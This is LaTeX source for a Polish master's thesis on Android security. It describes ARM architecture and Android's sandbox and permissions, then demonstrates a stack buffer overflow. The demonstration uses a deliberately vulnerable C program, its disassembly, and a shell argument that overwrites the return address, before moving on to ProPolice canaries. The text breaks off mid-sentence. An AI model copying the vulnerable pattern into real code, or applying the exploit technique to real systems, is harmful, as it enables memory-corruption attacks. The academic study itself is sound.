\documentclass{pracamgr}

\usepackage{polski}
\usepackage{graphicx}
\usepackage{todonotes}
\usepackage{hyperref}
\usepackage{tikz}
\usepackage{fancyvrb}

\usepackage[utf8]{inputenc}
\usepackage{float}

\floatstyle{ruled}
\newfloat{print}{tbh}{lop}[section]
\floatname{print}{Wydruk}

\usetikzlibrary{arrows,positioning} 
\tikzset{
    %Define standard arrow tip
    >=stealth',
    %Define style for boxes
    punkt/.style={
           rectangle,
%           rounded corners,
           draw=black, very thick,
           text width=6.5em,
           minimum height=2em,
           text centered},
    % Define arrow style
    pil/.style={
           ->,
           thick,
           shorten <=2pt,
           shorten >=2pt,}
}

% Dane magistranta:

\author{Marcel Kołodziejczyk}

\nralbumu{219533}

\title{Luki w bezpieczeństwie systemu operacyjnego Android}

\tytulang{Vulnerabilities in Android operating system}

%kierunek: Matematyka, Informatyka, ...
\kierunek{Informatyka}

% informatyka - nie okreslamy zakresu (opcja zakomentowana)
% matematyka - zakres moze pozostac nieokreslony,
% a jesli ma byc okreslony dla pracy mgr,
% to przyjmuje jedna z wartosci:
% {metod matematycznych w finansach}
% {metod matematycznych w ubezpieczeniach}
% {matematyki stosowanej}
% {nauczania matematyki}
% Dla pracy licencjackiej mamy natomiast
% mozliwosc wpisania takiej wartosci zakresu:
% {Jednoczesnych Studiow Ekonomiczno--Matematycznych}

% \zakres{Tu wpisac, jesli trzeba, jedna z opcji podanych wyzej}

% Praca wykonana pod kierunkiem:
% (podać tytuł/stopień imię i nazwisko opiekuna
% Instytut
% ew. Wydział ew. Uczelnia (jeżeli nie MIM UW))
\opiekun{dra Marcina Peczarskiego\\
  Instytut Informatyki\\
  }

% miesiąc i~rok:
\date{Czerwiec 2013}

%Podać dziedzinę wg klasyfikacji Socrates-Erasmus:
\dziedzina{
%11.0 Matematyka, Informatyka:\\
%11.1 Matematyka\\
%11.2 Statystyka\\
11.3 Informatyka\\
%11.4 Sztuczna inteligencja\\
%11.5 Nauki aktuarialne\\
%11.9 Inne nauki matematyczne i informatyczne
}

%Klasyfikacja tematyczna wedlug AMS (matematyka) lub ACM (informatyka)
\klasyfikacja{D. Software\\
  D.4. Operating Systems\\
  D.4.6. Security and Privacy Protection}

% Słowa kluczowe:
\keywords{android, arm, atak, bezpieczeństwo, przepełnienie bufora, metasploit, exploit, shellcode}

% Tu jest dobre miejsce na Twoje własne makra i~środowiska:
\newtheorem{defi}{Definicja}[section]

% koniec definicji

\begin{document}
\maketitle


%tu idzie streszczenie na strone poczatkowa
\begin{abstract}
krótkie streszczenie pracy
\end{abstract}


\tableofcontents
%\listoffigures
%\listoftables
\listoftodos

\chapter*{Wprowadzenie}

\chapter{Platforma sprzętowa i programowa}

Android jest systemem operacyjnym i zestawem aplikacji dedykowanym przede wszystkim dla urządzeń przenośnych z ekranami dotykowymi, takimi jak 
np. smartfon, tablet. Jądro systemu zostało oparte na jądrze Linuksa. System ten został zaprojektowany i stworzony głównie z myślą o urządzeniach
wyposażonych w procesor w architekturze ARM, aczkolwiek podejmowane są prace nad dostosowaniem Androida do innych architektur, np. x86.

W rozdziale tym zostaną opisane podstawy architektury procesorów ARM. Następnie zostanie omówiona architektura oraz model bezpieczeństwa systemu Android.

\section{Architektura procesorów ARM}

ARM jest obecnie najczęściej stosowaną architekturą procesorów typu RISC. Z biegiem czasu ukazywały się kolejne jej wersje. Niniejsza 
praca bazuje na 32-bitowej wersji architektury ARMv7-A, która została zrealizowana m.in. w procesorach z serii Cortex-A powszechnie 
wykorzystywanych w nowoczesnych urządzeniach przenośnych. Główne jej cechy to:
\begin{itemize}
\item dwa zestawy instrukcji: ARM (nazywany także A32) oraz Thumb-2,
\item architektura typu \emph{load/store} -- operacje arytmetyczno-logiczne wykonywane są tylko na~rejestrach, a nie bezpośrednio na pamięci,
\item szesnaście 32-bitowych rejestrów,
\item większość instrukcji wykonywanych w jednym cyklu zegara.
\end{itemize}

\subsection{Thumb-2}

W podstawowym zestawie instrukcji ARM rozkazy są stałej, 32-bitowej długości. W celu zwiększenia gęstości kodu został wprowadzony drugi, uproszczony 
zestaw Thumb, w którym rozkazy są też stałej, 16-bitowej długości. Został on następnie rozszerzony do zestawu Thumb-2, w którym instrukcje są zmiennej 
długości (16- i 32-bitowe). Ponieważ we wszystkich trybach adresy instrukcji muszą być odpowiednio wyrównane, 
ostatni bit adresu instrukcji ma zawsze wartość 0. Wykorzystuje się to w celu zmiany trybu pracy procesora. Instrukcja skoku do~adresu, 
którego ostatni bit jest równy 1, wymusza zmianę trybu na Thumb-2 i dalsze wykonywanie instrukcji spod adresu odpowiednio wyrównanego. 
Instrukcja skoku do~parzystego adresu powoduje przejście do 32-bitowego zestawu instrukcji ARM.

\subsection{Rejestry}

Z punktu widzenia programisty dostępnych jest szesnaście 32-bitowych rejestrów R0~--~R15. Trzy z nich mają dedykowane przeznaczenie:

\begin{itemize}
\item SP (ang. \textit{Stack Pointer}) -- R13 -- wskaźnik stosu,
\item LR (ang. \textit{Link Register}) -- R14 -- adres powrotu z podprogramu,
\item PC (ang. \textit{Program Counter}) -- R15 -- adres następnej instrukcji.
\end{itemize}

Dodatkowo występuje rejestr statusu procesora CPSR (ang. \textit{Current Processor Status Register}). Przechowuje on m.in. znaczniki Negative, Zero, 
Carry, oVerflow. Większość instrukcji podstawowego zestawu może być wykonywanych warunkowo, w zależności od stanu tych znaczników. Szczegółowe 
informacje na ten temat można znaleźć w \cite{armman}.

\subsection{Standard wywołania podprogramów}

Zbiór reguł i konwencji, które określają sposób wywoływania podprogramów, przekazywania im argumentów oraz odbierania zwracanej wartości, 
a także format plików binarnych nazywa się ABI (ang. Application Binary Interface). Kompletną dokumentację ABI dla architektury ARM można 
znaleźć w \cite{armcall}. Zdefiniowano w niej następujące zasady wywoływania podprogramów (procedur i funkcji):
\begin{itemize}
\item Do przekazywania argumentów i zwracania wyniku funkcji używane są rejestry R0~--~R3. Kolejne argumenty mogą być przekazywane na stosie.
\item Wartości rejestrów R0~--~R3 i R12 mogą być dowolnie modyfikowane w trakcie wykonania podprogramu.
\item Zawartość rejestrów R4~--~R11, LR, SP musi być przywrócona do wartości sprzed wywołania podprogramu. Zazwyczaj w prologu rejestry te 
odkłada się na stos, aby przywrócić ich wartości w epilogu.
\item Stos rośnie w kierunku mniejszych adresów pamięci.
\end{itemize}

Wykonywanie podprogramów umożliwiają następujące instrukcje skoku:
\begin{itemize}
\item \verb+B+ (ang. \textit{Branch}) -- skok względny,
\item \verb+BL+ (ang. \textit{Branch with Link}) -- skok względny, wywołanie podprogramu,
\item \verb+BX+ (ang. \textit{Branch and Exchange}) -- skok pośredni,
\item \verb+BLX+ (ang. \textit{Branch with Link and Exchange}) -- skok pośredni, wywołanie podprogramu.
\end{itemize}

Instrukcja \verb+B+ umożliwia wykonanie skoku o maksymalnie 32 MiB w przód lub w tył od~bieżącej wartości licznika instrukcji. Instrukcja \verb+BL+
dodatkowo zachowuje adres powrotu (adres następnej instrukcji) w rejestrze LR (R14). Pozostałe dwie instrukcje jako argument przyjmują rejestr~--~
skok jest wykonywany do adresu, jaki znajduje się
w przekazanym rejestrze.

\section{Architektura systemu Android}

Rysunek \ref{figure:architektura} przedstawia najważniejsze komponenty systemu Android. Zostaną one w skrócie omówione w kolejnych punktach.

\begin{figure}[htb]
\begin{center}
\includegraphics[width=\textwidth]{system-architecture.jpg} 
\end{center}
\caption[Główne komponenty systemu Android]{Główne komponenty systemu Android, źródło: \url{http://developer.android.com/about/versions/index.html}}
\label{figure:architektura}
\end{figure}

\subsection{Jądro systemu}

Podstawową warstwą zapewniającą interakcje ze sprzętem jest jądro systemu. Jądro systemu Android od wersji 4.0 (\textit{Ice Cream Sandwich}) jest 
nieznacznie zmodyfikowanym jądrem Linuxa w wersji 3.0.x. Wcześniejsze wydania systemu opierały się na jądrach z linii 2.6.x. Najważniejsze zmiany 
w stosunku do głównej wersji to:
\begin{itemize}
\item dodatkowe mechanizmy komunikacji międzyprocesowej i zdalnego wołania metod (ang. \textit{Android Binder}),
\item nowy podsystemem pamięci dzielonej \verb+ashmem+ i alokator pamięci \verb+pmem+,
\item \verb+logger+ -- wsparcie jądra dla narzędzia \verb+logcat+,
\item dodatkowe mechanizmy ograniczające dostęp do wybranych funkcjonalności sieciowych (ang. \textit{paranoid network security}).
\end{itemize}

Sytuacja, w której jądro Androida jest rozgałęzieniem w stosunku do głównej linii Linuxa, jest bardzo istotna z punktu widzenia bezpieczeństwa systemu. 
Wszelkie zmiany wprowadzane w jądrze Linuxa, w tym niektóre poprawki bezpieczeństwa, pojawiają się w zmodyfikowanej wersji dla Androida ze sporym 
opóźnieniem. Dodatkowo opóźnienie to jest powiększone przez sposób aktualizacji systemu, co zostanie opisane w punkcie \ref{section:aktualizacje}.
Z tego powodu istnieje bardzo wiele powszechnie znanych luk w jądrze Androida, pozwalających m.in. na eskalację uprawnień procesu. Dzięki temu 
możliwe jest tymczasowe lub permanentne uzyskanie uprawnień administratora systemu (tzw. ,,rootowanie'' systemu). Jest to bardzo często wykorzystywane 
przez zwykłych użytkowników do wykonania niektórych czynności administracyjnych, np. zmiany konfiguracji systemu, odinstalowania wybranych aplikacji 
systemowych, a nawet wgrania zupełnie nowego obrazu systemu. Istnieje wiele narzędzi umożliwiających wykonanie tego procesu zwykłemu, niezaawansowanemu 
użytkownikowi.

\subsection{Biblioteki}

System Android wyposażono w szereg popularnych bibliotek napisanych w C/C++, używanych przez różne komponenty poprzez framework aplikacji. Możliwe jest 
także skorzystanie z tych bibliotek w kodzie natywnym napisanym w C/C++. Przykładowe biblioteki to:

\begin{itemize}
\item \verb+libc+ -- standardowa biblioteka C, zoptymalizowana dla urządzeń wbudowanych,
\item \verb+webcore+ -- silnik przeglądarki internetowej, wykorzystany też w innych aplikacjach, które potrzebują wyświetlić stronę HTML, np. 
w kliencie poczty e-mail,
\item \verb+sqllite+ -- lekka, relacyjna baza danych,
\item \verb+OpenGL+ -- biblioteka graficzna używana podczas renderowania grafiki dwu- i trójwymiarowej,
\item zestaw bibliotek multimedialnych dostarczających kodeki wybranych formatów plików.
\end{itemize}

\subsection{Środowisko czasu wykonania}

Środowisko czasu wykonania systemu Android składa się z maszyny wirtualnej Dalvik oraz podstawowych bibliotek Javy.

Dalvik jest maszyną wirtualną, która została stworzona specjalnie dla systemu Android, w celu zapewnienia odpowiedniej wydajności na urządzeniach 
z mniejszymi zasobami, jak np. telefony komórkowe. Dalvik nie jest maszyną wirtualną Javy i używa własnego kodu bajtowego w formacie \verb+.dex+ 
(ang. \textit{Dalvik executable}). Możliwa jest jednak konwersja kodu bajtowego Javy do kodu Dalvika. W przeciwieństwie do wirtualnej maszyny Javy, 
która jest maszyną stosową, Dalvik jest maszyną rejetrową. Dalvik umożliwia uruchomienie wielu aplikacji jednocześnie, wydajnie tworząc klika instancji 
maszyny wirtualnej. Zapewnia izolację procesów, zarządzanie pamięcią oraz wielowątkowość. 

\subsection{Aplikacje}

System Android posiada kilka podstawowych aplikacji zapewniających podstawowe funkcjonalności nowoczesnego telefonu komórkowego, np. klient SMS, 
aplikacja do wykonywania połączeń głosowych, klient poczty, przeglądarka internetowa, zarządca aplikacji. Bardzo wiele funkcjonalności jest wydzielonych 
do osobnych komponentów, tworząc framework. Jest on zaprojektowany w sposób, który umożliwia zastąpienie jego dowolnego komponentu na inny zapewniający 
taką samą funkcjonalność.

\section{Model bezpieczeństwa Androida}

Platforma Android została zaprojektowana w taki sposób, aby możliwe było także zainstalowanie aplikacji z potencjalnie niezaufanych źródeł.
Jest to odmienny model niż w przypadku telefonów iPhone (z systemem operacyjnym iOS), gdzie wszystkie aplikacje mogą być jedynie zainstalowane
z jednego źródła (\textit{Apple Store}) i mogą być zweryfikowane przed upublicznieniem. Z tego powodu system Android posiada mechanizmy bezpieczeństwa 
działające na wielu poziomach. Izolowanie aplikacji wykorzystuje mechanizmy kontroli dostępu do systemu plików, jakie udostępnia jądro Linuxa oraz 
mechanizm nadawania wybranych uprawnień zatwierdzanych przez użytkownika w trakcie instalacji aplikacji. Aplikacje muszą być także podpisane przy użyciu 
kryptografii z kluczem publicznym, jednak ten mechanizm umożliwia jedynie wiarygodne zidentyfikowanie autora aplikacji.

System Android zbudowany jest na bazie standardowego jądra Linuxa z nieznacznymi modyfikacjami, dlatego też 
posiada uznaniową kontrolę dostępu (ang. \textit{Discretionary Access Control}) na poziomie systemu plików, która opiera się na identyfikatorach 
użytkowników (\textit{uid}) i grup (\textit{gid}). Nad jądrem Android używa własnego zbioru bibliotek i usług. Aplikacje mogą być tworzone w Javie
i są wtedy kompilowane do kodu bajtowego maszyny wirtualnej Dalvik. Aplikacje lub ich fragmenty mogą być również tworzone w C/C++, a następnie 
wywoływane z Javy poprzez interfejs JNI (ang. \textit{Java Native Interface}).

\subsection{Uruchamianie aplikacji w ,,piaskownicy''}\label{subsection:piaskownica}

Aplikacje zainstalowane w systemie są ograniczone w ,,piaskownicy'', która jest zdefiniowana poprzez unikalny \textit{uid} i odpowiedni \textit{gid}.
Identyfikatory te są tworzone dynamicznie podczas instalowania aplikacji. Nazwy użytkownika i grupy są identyczne i składają się z prefiksu \verb+app_+
oraz identyfikatora. Każda aplikacja używa innego identyfikatora użytkownika i grupy, co gwarantuje pełną izolację na poziomie systemu plików. Dostęp
do plików systemowych jest także znacząco ograniczony, zazwyczaj tylko do odczytu. Wywołanie funkcji lub usługi spoza piaskownicy jest możliwe poprzez
odpowiednie API, które wymaga odpowiednich uprawnień aplikacji, co zostanie opisanie w punkcie \ref{subsection:uprawnienia}.

Ograniczenia piaskownicy są wymuszane przez jądro systemu i poprzez odpowiednie usługi przestrzeni użytkownika, dlatego też dotyczą wszystkich aplikacji,
włącznie z kodem natywnym wywoływanym bezpośrednio poprzez interfejs JNI lub przy użyciu wywołania systemowego \verb+exec+. Jeżeli aplikacje potrzebują 
współdzielić dane, na przykład na poziomie systemu plików, powinny zadeklarować wspólny identyfikator użytkownika (\textit{uid}) w manifeście. Jest to 
możliwe tylko wtedy, gdy aplikacje są podpisane przy użyciu tego samego klucza prywatnego. Identyfikatory użytkowników i przydzielone im uprawnienia są 
przechowywane w pliku \verb+data/system/packages.xml+ i mogą być odczytywane przez wszystkie aplikacje zainstalowane na urządzeniu.

\subsection{Kontrola dostępu do systemu plików}

Uznaniowa kontrola dostępu do systemu plików w Androidzie jest zrealizowana przy użyciu tradycyjnych unixowych uprawnień. Pliki tworzone przez 
aplikacje domyślnie mają ustawione uprawnienia na \verb+rw-rw----+ (0660 w notacji ósemkowej). Z tego powodu aplikacje zainstalowane z różnymi 
identyfikatorami użytkownika i grupy nie mogą czytać, modyfikować ani wykonywać wzajemnie swoich plików. Pliki mogą być jednak jawnie udostępniane 
poprzez użycie flag \verb+MODE_WORLD_READABLE+ i \verb+MODE_WORLD_WRITABLE+ podczas tworzenia ich w API Javy lub poprzez wywołanie systemowe 
\verb+chmod+ w natywnym kodzie C/C++. Tworzenie plików z odpowiednimi uprawnieniami leży w gestii aplikacji.

Katalog z danymi aplikacji domyślnie znajduje się w \verb+/data/data/<nazwa pakietu>/+ i~posiada następującą strukturę:
\begin{itemize}
\item \verb+databases+ -- służy do przechowywania baz danych sqlite,
\item \verb+lib+ -- zawiera wszystkie natywne biblioteki używane przez aplikację, skopiowane podczas instalacji,
\item \verb+files+ -- katalog, gdzie domyślnie są tworzone pliki przez aplikację,
\item \verb+shared_prefs+ -- zawiera XML-owe pliki konfiguracyjne aplikacji.
\end{itemize}

Standardowe, preinstalowane aplikacje (np. \verb+com.android.camera+) zazwyczaj także używają powyższej struktury katalogów, jednak ich lokalizacja 
może być odmienna na niektórych urządzeniach, np. telefony marki Samsung używają dla preinstalowanych aplikacji ścieżki 
\verb+/dbdata/databases/<nazwa pakietu>/+. Jest to istotne z punktu widzenia twórcy exploitów, gdyż złośliwy kod musi się dostosować do struktury 
katalogów używanej przez dane urządzenie.

W trakcie rozruchu systemu różne części systemu plików są montowane z odmiennymi opcjami. Katalog \verb+/data+ używa opcji 
\verb+'rw,nosuid,nodev,relatime'+, co m.in. oznacza, że flaga plików \verb+setuid+ nie będzie respektowana. Pliki wykonywalne będą zawsze uruchamiane 
z uprawnieniami użytkownika wykonującego program, a nie właściciela pliku.

Katalog \verb+/system+ jest montowany z opcjami \verb+ro,relatime+, co powoduje, że cała partycja jest jedynie do odczytu. Warto zwrócić uwagę, że 
w tym przypadku opcja \verb+nosuid+ nie jest używana, ponieważ system Android korzysta z plików z flagą \verb+setuid+ w tej lokalizacji.

\subsection{Uprawnienia aplikacji}\label{subsection:uprawnienia}

Aplikacje w celu wyjścia z piaskownicy (zarówno na poziomie systemu pików, jak i wywoływania chronionych funkcji API systemu) muszą mieć wcześniej
nadane odpowiednie uprawnienia. Wymagany przez aplikację zestaw uprawnień jest wyświetlany w trakcie instalacji i musi być zaakceptowany przez 
użytkownika w całości albo wcale. Użytkownik nie może zatwierdzić jedynie części z wymaganych przez aplikację uprawnień.

Każda aplikacja musi mieć plik \verb+AndroidManifest.xml+ w swoim głównym katalogu. Plik ten dostarcza systemowi operacyjnemu kluczowych informacji 
na temat aplikacji. W pliku tym deklarowane są uprawnienia, jakich potrzebuje aplikacja do poprawnego działania. Przykładowy wpis
\begin{verbatim}
<uses-permission android:name="android.permission.CALL_PHONE" />
\end{verbatim}
pozwala aplikacji na wykonywanie połączeń telefonicznych. Próba wykonania chronionej funkcji API bez odpowiednich uprawnień spowoduje podniesienie 
wyjątku \verb+SecurityException+.

\subsection{Podpisywanie aplikacji}

Każda instalowana aplikacja w systemie Android musi być podpisana przez twórcę przy użyciu jego klucza prywatnego wraz z odpowiednim certyfikatem. 
Możliwe jest jednak używanie kluczy prywatnych potwierdzonych przez dowolne centrum certyfikacji, a także certyfikatów samopodpisanych. Mechanizm 
podpisywania aplikacji nie ma większego znaczenia z punktu widzenia bezpieczeństwa systemu. Jedyną korzyścią, jaką wnosi, jest potwierdzenie tożsamości 
autora instalowanej aplikacji. W przyszłości system podpisywania może zostać wykorzystany w celu ograniczenia dostawców aplikacji do jedynie uprzednio 
zweryfikowanych, podobnie jak to jest w przypadku konkurencyjnego iPhone'a firmy Apple. W obecnych wydaniach systemu Android funkcjonalność taka nie 
jest zaimplementowana.

Mechanizm podpisywanie aplikacji umożliwia programom współdzielenie zasobów, co zostało opisane w punkcie \ref{subsection:piaskownica}

\section{Narzędzia programistyczne}

Twórcy systemu Android udostępnili bardzo dobre narzędzia niezbędne do rozwijania i testowania aplikacji na ten system: SDK (ang. \textit{Software
Development Kit}) i NDK (ang. \textit{Native Development Kit}).

Android SDK jest podstawowym zestawem narzędzi przydatnym dla bardziej zaawansowanych użytkowników systemu oraz programistów . Najważniejsze komponenty 
tego pakietu to:
\begin{itemize}
\item Emulator wraz z zestawem obrazów kolejnych wersji systemu pozwalający uruchomić wirtualny obraz systemu. Możliwe jest zdefiniowanie 
sprzętowych parametrów emulowanego obrazu, m.in. rozmiar pamięci RAM, rozdzielczość i typ ekranu. Dzięki temu można wykonywać testy na wielu 
konfiguracjach. Wirtualizacja opiera się na emulatorze QEMU.
\item \verb+ADB+ (ang. \textit{Android Debug Bridge}) -- narzędzie umożliwiające komunikację z urządzeniem i debugowanie aplikacji. Pozwala wykonywać 
szereg czynności diagnostycznych, np. przesłanie pliku z lub do urządzenia, wypisanie logów systemowych, uruchomienie konsoli, zainstalowanie lub 
odinstalowanie aplikacji. Narzędzie to może być także wykorzystywane do pracy z uruchomionym wirtualnym obrazem.
\item Biblioteki dla kolejnych wydań systemu umożliwiające tworzenie aplikacji na daną platformę.
\end{itemize}

Android NDK jest zestawem popularnych narzędzi dedykowanych dla systemu Android. Pakiet ten został stworzony, aby umożliwić tworzenie aplikacji lub 
ich części w C/C++. W jego skład wchodzą między innymi:
\begin{itemize}
\item różne wersje kompilatora GCC dla wybranych architektur procesora (ARM, x86, ...),
\item standardowe narzędzia do debugowania i optymalizacji kodu, np. \verb+gdb+, \verb+gdbserver+, \verb+gcov+, \verb+ar+, \verb+ld+, \verb+objdump+,
\item pliki nagłówkowe i skompilowane statyczne i dynamiczne biblioteki, np. \verb+libc+, \verb@libstdc++@, \verb+libz+, \verb+libm+.
\end{itemize}

Obydwa pakiety posiadają bogatą dokumentację oraz zawierają liczne przykłady użycia. Przykłady w dalszej części pracy będą używały powyższych narzędzi.

\section{Aktualizacje systemu}\label{section:aktualizacje}

System Android posiada wbudowany mechanizm aktualizacji całego systemu. Jednak nowe wersje systemu są dostarczane przez producenta zazwyczaj ze sporym 
opóźnieniem. Wielu producentów urządzeń wraz ze standardową dystrybucją systemu załącza dodatkowe oprogramowanie np. \textit{HTC Sense} firmy HTC, 
nakładka graficzna \textit{TouchWiz} firmy Samsung. Źródła systemu zazwyczaj są nieznacznie modyfikowane przez producenta dla każdego modelu telefonu, 
gdyż wymagają np. dodatkowych sterowników urządzeń. Niektóre telefony posiadają także dodatkowe oprogramowanie operatora telefonii komórkowej.
Nowe wersje systemu w pierwszej kolejności pojawiają się na urządzeniach z linii \textit{Google Nexus}, ponieważ nie zawierają one żadnych dodatkowych 
rozszerzeń producenta ani firm telekomunikacyjnych. Bardzo wiele modeli nie otrzymuje dalszego wsparcia ze strony producenta. Jest to głównie 
spowodowane wzrastającymi wymaganiami sprzętowymi kolejnych wersji systemu, których starsze modele nie spełniają. Bywa także, że decyzja o zaprzestaniu 
wydawania aktualizacji ma przyczyny biznesowe, gdyż producent nie chce ponosić dalszych nakładów na mało popularne urządzenia.

Tabela \ref{table:zasieg} przedstawia udział najpopularniejszych wersji systemu. Zauważyć można, że największy udział mają wersje, których data 
premiery miała miejsce ponad dwa lata temu.

\begin{table}
\centering
\caption[Udział wersji systemu Android]{Udział wersji systemu Android (stan na 2 kwietnia 2013 r.), źródło: 
\url{http://developer.android.com/about/dashboards/index.html}}
\label{table:zasieg}
\begin{tabular}{|l|l|l|}
\hline
Wersja	& Nazwa kodowa	& Udział	\\ 
\hline
2.1	& Eclair	& \phantom{0}1,7\%	\\
2.2	& Froyo	& \phantom{0}4,0\%	\\
2.3.3 - 2.3.7	& Gingerbread	& 39,7\%	\\
4.0.3 - 4.0.4	& Ice Cream Sandwich	& 29,3\%	\\
4.1.x	& Jelly Bean	& 23,0\%	\\
4.2.x	& Jelly Bean	& \phantom{0}2,0\%	\\
\hline
\end{tabular}
\footnotetext{}
\end{table}

\chapter{Techniki ataków i sposoby przeciwdziałania}

\section{Błąd przepełnienie bufora na stosie}

Przepełnienie bufora to błąd w kodzie programu umożliwiający wczytanie do wyznaczonego obszaru pamięci większej ilości danych, niż zarezerwował na ten 
cel programista. Dane wykraczające poza rozmiar bufora nadpisują obszar pamięci bezpośrednio z nim sąsiadujący, który może zawierać inne dane lub 
informacje decydujące o przepływie sterowania w wykonywanym programie.

Na przykładzie programu \ref{print:overflow}, w którym występuje błąd umożliwiający przepełnienie bufora na stosie, zastanie omówiona 
technika ataku pozwalająca na zmianę zachowania programu.

\begin{print}
\begin{verbatim}
 1: #include <stdio.h>
 2: #include <stdlib.h>
 3: 
 4: void exploit() {
 5:     printf("Exploited!\n");
 6:     exit(0);
 7: }
 8:
 9: void vulnerable(char *arg) {
10:     char buffer[100];
11:     strcpy(buffer, arg);
12: }
13: 
14: int main(int argc, char *argv[]) {
15:     if (argc < 0) exploit();
16:     vulnerable(argv[1]);
17: }
\end{verbatim}
\caption{Przykładowy program z błędem powodującym przepełnienie bufora.}
\label{print:overflow}
\end{print}

Program \ref{print:overflow} został skompilowany z optymalizacjami (\verb+-Os+) do kodu maszynowego w trybie Thumb-2. Wykonanie procedury 
\verb+exploit+ w trakcie normalnego wykonania programu nigdy nie powinno nastąpić. Użycie tej procedury w linii 15 powoduje, że nie zostanie ona 
usunięta w trakcie optymalizacji kodu przez kompilator jako martwy kod.

\subsection{Nadpisanie adresu powrotu}

W punkcie tym zostanie zaprezentowana atak, w wyniku którego sterowanie programu przejdzie do wykonywania funkcji \verb+exploit+.
W funkcji \verb+vulnerable+ wykonywane jest kopiowanie napisu, przekazanego jako argument \verb+arg+, do lokalnie zadeklarowanego bufora \verb+buffer+ 
o rozmiarze 100 bajtów. Błędem jest niesprawdzenie długości przekazywanego napisu. Uruchomienie programu z dostatecznie długim argumentem, kończy się 
naruszeniem ochrony pamięci:

\begin{verbatim}
sh-3.2# ./buffer-overflow `printf 'A%.0s' {1..108}`
Segmentation fault
\end{verbatim}

\SaveVerb{vuln}|vulnerable|
\begin{print}
\begin{verbatim}
1:   push	{lr}
2:   sub	sp, #108
3:   adds	r1, r0, #0
4:   mov	r0, sp
5:   blx	0x83d0
6:   add	sp, #108
7:   pop	{pc}
\end{verbatim}
\caption{Kod assemblerowy procedury \protect\UseVerb{vuln}.}
\label{print:vulnerable}
\end{print}

Aby dokładnie zrozumieć genezą błędu, należy zapoznać się z kodem assemblerowym procedury \verb+vulnerable+, przedstawionym na wydruku 
\ref{print:vulnerable}. Wykonuje ona kolejno:
\begin{itemize}
\item Odkłada na stos adres powrotu, który jest przechowywany w rejestrze LR (linia 1).
\item Powiększa stos, aby utworzyć miejsce na lokalny bufor \verb+buffer+. Alokowane jest nadmiarowo 108 bajtów (linia 2)
\item Przygotowuje argumenty wywołania procedury \verb+strcpy+. Do rejestru R1 zapisywany jest adres początku bufora \verb+arg+, przekazanego
jako argument procedury \verb+vulnerable+ (linia 3). Do rejestru R0 zapisywany jest adres początku lokalnego bufora \verb+buffer+, który znajduje 
się na szczycie stosu (linia 4).
\item Wykonuje skok do procedury \verb+strcpy+ (linia 5).
\item Przywraca poprzednią wartość wierzchołka stosu, tak aby wskazywał na wcześniej odłożony adres powrotu (linia 6).
\item Wczytuje adres powrotu do rejestru PC. Powoduje to dalsze wykonywanie przez program kodu od tego adresu (linia 7).
\end{itemize}

Procedura \verb+strcpy+ kopiuje łańcuch znaków zakończony bajtem o wartości zero do obszaru pamięci wskazywanego przez pierwszy argument. Ponieważ 
przekazano napis znacznie dłuższy, od zaalokowanej pamięci, nadpisany został obszar pamięci, który znajduje się bezpośrednio za docelowym buforem, w tym
zapisany tam wcześniej adres powrotu. Ostatnia instrukcja procedury \verb+vulnerable+ wczytuje do rejestru PC wartość wprowadzoną przez użytkownika,
która nie jest poprawnym adresem kodu programu.

Jeżeli adres powrotu zostanie nadpisany przez inny, poprawny adres kodu, możliwa będzie zmiana przepływu sterowania w programie. Umieszczenie
w tym miejscu adresu początku kodu procedury \verb+exploit+ spowoduje, że zostanie ona wykonana po zakończeniu procedury \verb+vulnerable+.

Adres początku kodu funkcji \verb+exploit+ można uzyskać za pomocą narzędzia \verb+gdb+:
\begin{verbatim}
(gdb) x/x exploit 
0x84d0 <exploit>:	0x4803b508
\end{verbatim}

Aby doprowadzić do wykonania procedury \verb+exploit+, należy uruchomić program z dostatecznie długim argumentem. Ponieważ na bufor \verb+buffer+ 
zostało zaalokowanych na stosie 108 bajtów, wartość, która ma zostać wczytana do rejestru licznika instrukcji, należy umieścić na pozycjach 
109~--~112. Wartość ta musi też być zapisana w takiej kolejności bajtowej, w jakiej został skompilowany program. Domyślnie jest to little-endian.
Cały argument musi być poprawnym napisem, a więc nie może zawierać bajtu o wartości zero. Skonstruowanie takiego argumentu jest jednak możliwe, 
dzięki odpowiedniej kolejności bajtowej przekazywanego adresu -- najmniej znaczące bajty adresu będą położone jako pierwsze. Natomiast bardziej 
znaczące bajty adresu, które są równe zero, poprawnie zakończą napis. Kod maszynowy funkcji \verb+exploit+ jest skompilowany w trybie Thumb-2,
więc aby został poprawnie zinterpretowany przez procesor, adres funkcji \verb+exploit+, tj. \verb+0x84d0+, trzeba zwiększyć o 1. Poniżej uzyskujemy 
spodziewany efekt, czyli wykonanie procedury \verb+exploit+, która wypisuje napis na standardowe wyjście:

\begin{verbatim}
sh-3.2# ./buffer-overflow `printf 'A%.0s' {1..108}; printf '\xd1\x84\x00\x00'`
Exploited!
\end{verbatim}

\subsection{Zabezpieczenie ProPolice}

\SaveVerb{propolice}|ProPolice|
\begin{print}[tbh]
\begin{verbatim}
 1:  push	{r4, lr}
 2:  ldr	r4, [pc, #36]	; (<vulnerable+40>)
 3:  sub	sp, #104
 4:  adds	r1, r0, #0
 5:  add	r4, pc
 6:  ldr	r4, [r4, #0]
 7:  mov	r0, sp
 8:  ldr	r3, [r4, #0]
 9:  str	r3, [sp, #100]
10:  blx	0x8450
11:  ldr	r2, [sp, #100]
12:  ldr	r3, [r4, #0]
13:  cmp	r2, r3
14:  beq.n	0x856a <vulnerable+34>
15:  blx	0x845c
16:  add	sp, #104
17:  pop	{r4, pc}
\end{verbatim}
\caption{Kod assemblerowy procedury \protect\UseVerb{vuln} z włączoną ochroną \protect\UseVerb{propolice}.}
\label{print:vulnerable-propolice}
\end{print}

W nowoczesnych kompilatorach zostało dodane zabezpieczenie, które znacząco utrudnia wykonywanie ataków polegających na nadpisywaniu niektórych danych 
znajdujących się na stosie. Kod maszynowy funkcji, która alokuje bufor na stosie, jest wzbogacany o dodatkowe sprawdzenie, czy nie wystąpiło 
przepełnienie bufora. Polega ono na umieszczeniu na stosie małego, losowego ciągu znaków, tzw. ,,kanarka'' lub ,,ciasteczka'' (ang. \textit{canaries}, 
\textit{cookie}). Znacznik ten jest umieszczany pomiędzy obszarem pamięci przeznaczonym na zmienne lokalne procedury a danymi kontrolnymi programu 
odkładanymi na stosie, np. adresem powrotu z funkcji, wskaźnikiem ramki itp. Jeżeli dojdzie do przepełnienia bufora, znacznik ten zostanie nadpisany. 
Dzięki temu, że jego wartość jest losowa, atakujący z bardzo małym prawdopodobieństwem może zgadnąć odpowiednią wartość. W epilogu procedury wykonywane 
